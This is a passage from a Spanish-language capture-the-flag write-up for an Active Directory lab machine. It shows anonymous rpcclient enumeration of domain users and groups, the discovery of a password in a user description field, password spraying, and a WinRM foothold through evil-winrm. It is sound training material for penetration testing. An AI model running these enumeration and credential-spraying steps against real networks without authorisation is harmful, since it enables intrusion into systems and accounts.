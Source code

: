 ![Untitled](/assets/img/Resolute/Pasted image 20240319122447.png)

- Enumerar usuarios

```bash
rpcclient -U "" -N 10.10.10.169 -N -c 'enumdomusers'
```

- Enumerar grupos

```bash
rpcclient -U "" -N 10.10.10.169 -N -c 'enumdomgroups'
```

- Enumerar por rid group

```bash
rpcclient -U "" -N 10.10.10.169 -N -c 'querygroupmem <0x200>'
```

- Enumerar por rid user

```bash
rpcclient -U "" -N 10.10.10.169 -N -c 'queryuser <0x1f4>'
```

- Enumerar todas las descripciones de usuario

```bash
rpcclient -U "" -N 10.10.10.169 -N -c 'querydispinfo'
```

![Untitled](/assets/img/Resolute/Pasted image 20240319123303.png)
Enumerando el campo descripción se llega a listar información relevante, nos muestra lo que parece ser una contraseña:

```bash
Welcome123
```

Realizando un ataque de `password spraying`

![Untitled](/assets/img/Resolute/Pasted image 20240319123718.png)

Se visualiza que es válida para el usuario `melanie`

Comprobando password a través de `nxc` para verificar si dispone de permisos administrador, en caso de serlo nos debería mostrar el mensaje de `Pwned`

![Untitled](/assets/img/Resolute/Pasted image 20240319133202.png)

Probando `winrm` y se comprueba que el usuario `melanie` pertenece al grupo `Remote Management Users`

![Untitled](/assets/img/Resolute/Pasted image 20240319133553.png)

## Shell as melanie

Conectándonos por `evil-winrm`
